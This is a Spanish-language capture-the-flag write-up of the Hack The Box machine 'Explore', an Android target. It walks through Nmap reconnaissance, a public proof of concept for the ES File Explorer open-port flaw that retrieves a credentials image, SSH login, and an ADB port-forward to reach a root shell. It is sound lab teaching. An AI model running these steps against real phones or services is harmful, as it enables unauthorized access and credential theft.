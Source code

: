 ```yaml
---
title: Explore - Hack The Box
published: true
---
```


En esta ocasión vamos a estar resolviendo la máquina _Explore_ de _Hack The Box_. Es una máquina _Android_ de nivel de dificultad fácil en la intrusión, y medio en la escalada de privilegios según figura en la plataforma.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore-Hack-The-Box/1.png)

### [](#header-3)Fase De Reconocimiento

Primeramente vamos a lanzar una _traza ICMP_ para saber si la máquina está activa.

```
ping -c 1 10.10.10.247
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore-Hack-The-Box/2.png)

Una vez comprobamos que la máquina está activa (pues nos devuelve una respuesta), podemos también determinar a que tipo de máquina nos estamos enfrentando en base al valor del _TTL_; en este caso el valor del _TTL_ de la máquina es `63`, por lo que podemos intuir que estamos ante una máquina _Linux_. Recordemos que algunos de los valores referenciales son los siguientes:

| Sistema Operativo (OS) | TTL |
|:-----------------------|:----|
| Linux                  | 64  |
| Windows                | 128 |
| Solaris                | 254 | 

Si nos damos cuenta, en esta ocasión, el valor del _TTL_ es `63` y no `64` como indica la tabla anterior, esto se debe a que en el entorno de máquinas de _Hack The Box_, no nos comunicamos directamente con la máquina a vulnerar, sino que existe un intermediario, por lo que el _TTL_ disminuye en una unidad.

```
ping -c 1 10.10.10.247 -R                               
``` 

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore-Hack-The-Box/3.png)

Posteriormente, vamos a utilizar la herramienta _Nmap_ para determinar que puertos están abiertos así como identificar la versión y servicios que corren en el activo. Para determinar que puertos están abiertos podemos realizar lo siguiente:

```
nmap -p- --open -T5 -v -n 10.10.10.247 -oG allPorts
```

Y en caso de que el escaneo tarde demasiado en completar, tenemos esta otra alternativa:

``` 
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.247 -oG allPorts
```

A continuación se explican los parámetros utilizados en el escaneo de puertos con _Nmap_:

* p - Escanea todo el rango de puertos (65535 en total)
* open - Nos indica todos aquellos puertos que están abiertos (o posiblemente abiertos)
* T5 - La plantilla de temporizado nos permite agilizar nuestro escaneo, este valor puede ir desde 0 hasta 5, cabe aclarar que a mayor sea el valor de la plantilla, "generaremos más ruido", pero no pasa nada ¿no? Al fin y al cabo estamos practicando en un entorno controlado y aquí somos todos `White Hat`
* v - _Verbose_, reporta lo encontrado por consola
* n - No aplicar _resolución DNS_
* sS - Escaneo _TCP SYN_
* min-rate - Emitir paquetes no más lentos que <<valor>> por segundo
* vvv - Triple _verbose_, para obtener mayor información por consola
* Pn - No aplicar _host discovery_
* oG - Exportar el escaneo en formato "_grepeable_"

Una vez hemos detectado los puertos que se encuentran abiertos en el activo, podemos pasar a determinar la versión y servicios que corren bajo estos puertos.

```  
nmap -sC -sV -p 2222,42135,42607,59777 10.10.10.247 -oN targeted
```

A continuación se explican los parámetros utilizados en el escaneo de versiones y servicios con _Nmap_:

* sC - Scripts básicos de enumeración
* sV - Versión y servicios que corren bajo los puertos encontrados
* p - Especificamos que puertos queremos analizar (los que encontramos abiertos en el paso anterior)
* oN - Exportar el escaneo en formato _Nmap_

Basándonos en la información que nos reporta _Nmap_, podemos darnos cuenta que nos encontramos frente a un teléfono móvil, y nuestra primera gran pista para la siguiente fase es el puerto `42135`.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore-Hack-The-Box/4.png)

### [](#header-3)Fase De Explotación

Para explotar el servicio `ES File Explorer`, empezaremos buscando algun exploit que se encuentre en _Exploit Database_, para ello utilizaremos _SearchSploit_ para poder seguir trabajando desde nuestra terminal.

```
searchsploit ES File Explorer                               
``` 

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore-Hack-The-Box/5.png)

En este caso _SearchSploit_ no mostró nada interesante, sin embargo, si revisamos manualmente en la página de _Exploit Database_, podemos encontrar un script que nos permite leer archivos alojados en el servicio de `ES File Explorer` de versión `4.1.9.7.4`, por esta razón es importante no quedarnos conformes únicamente con el primer resultado que encontremos.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore-Hack-The-Box/6.png)

Sin embargo, tampoco será este el script con el que trabajaremos; en esta ocasión estaremos utilizando un proyecto de _GitHub_ del usuario _fs0c131y_, este se llama [ESFileExplorerOpenPortVuln](https://github.com/fs0c131y/ESFileExplorerOpenPortVuln).

Para empezar a trabajar con este repositorio bastará con clonarlo en nuestra máquina.

``` 
git clone https://github.com/fs0c131y/ESFileExplorerOpenPortVuln
```

Una vez lo tengamos descargado, podemos empezar a revisar que información se alojaba en el servicio `ES File Explorer`.

Después de estar listando el contenido almacenado en el teléfono móvil, encontramos entre las fotografías, una llamada `creds`, lo cual nos hace pensar a que se refiere a credenciales con las que posteriormente autenticarnos.

```
python3 poc.py --cmd listPics --ip 10.10.10.247                               
``` 

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore-Hack-The-Box/7.png)

Por lo que procedemos a descargar esta imagen.

```  
python3 poc.py --get-file /storage/emulated/0/DCIM/creds.jpg --ip 10.10.10.247 
``` 

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore-Hack-The-Box/8.png)

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore-Hack-The-Box/9.png)

Si recordamos, otro servicio que detectamos con _Nmap_, fue el servicio _SSH_ en el puerto `2222`.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore-Hack-The-Box/10.png)

Por lo que procederemos a autenticarnos con las credenciales encontradas:

```  
ssh kristi@10.10.10.247 -p 2222
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore-Hack-The-Box/11.png)

Una vez dentro de la máquina, procederemos a buscar la primera flag. Por lo que buscaremos el archivo `user.txt` dentro de todo el sistema.

```
echo **/*user.txt*
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore-Hack-The-Box/12.png)

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore-Hack-The-Box/13.png)

Podemos ver que en efecto esta es la flag del usuario con bajos privilegios.

Lo más común sería utilizar `find . -name user.txt` (y en este caso, redirigir todo el _stderr_ o _Standard Error_ hacia el `/dev/null`), sin embargo no conseguimos ningún resultado en esta máquina, por lo que resulta conveniente conocer otros métodos para realizar el mismo proceso.

### [](#header-3)Escalada De Privilegios

Para poder conseguir la siguiente flag (la del usuario con máximos privilegios), tenemos que percatarnos que la máquina tiene más puertos abiertos que los registrados con _Nmap_, a estos se los conoce como _puertos internos_.

```  
netstat -nlpt
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore-Hack-The-Box/14.png)

Si nos percatamos, la máquina utiliza el puerto `5555` para realizar varios procesos relacionados con _Android_; esto tiene sentido ya que algunos dispositivos _Android_ tienen este puerto abierto para realizar procesos relacionados con el `Android Debug Bridge` o `ADB` por sus siglas en inglés. 

Por lo que, lo que vamos a realizar es un `remote port forwarding`, para posteriormente, con el servicio `ADB` conseguir una shell de máximos privilegios con la que poder migrar al usario root y conseguir la última flag. 

En caso de no contar con el servicio `ADB` instalado, bastará con realizar lo siguiente:

```
sudo apt install adb
```

Una vez instalado el servicio `ADB`, podemos pasar a conseguir una shell con máximos privilegios dentro del dispositivo.

```
ssh -L 5555:localhost:5555 kristi@10.10.10.247 -p 2222
``` 

```
adb start-server
adb connect localhost:5555
adb devices
adb -s localhost:5555 shell
su root
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore-Hack-The-Box/15.png)

Una vez hemos migrado al usuario _root_, simplemente tendremos que buscar la respectiva flag.

```
echo **/*root.txt*
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore-Hack-The-Box/16.png)

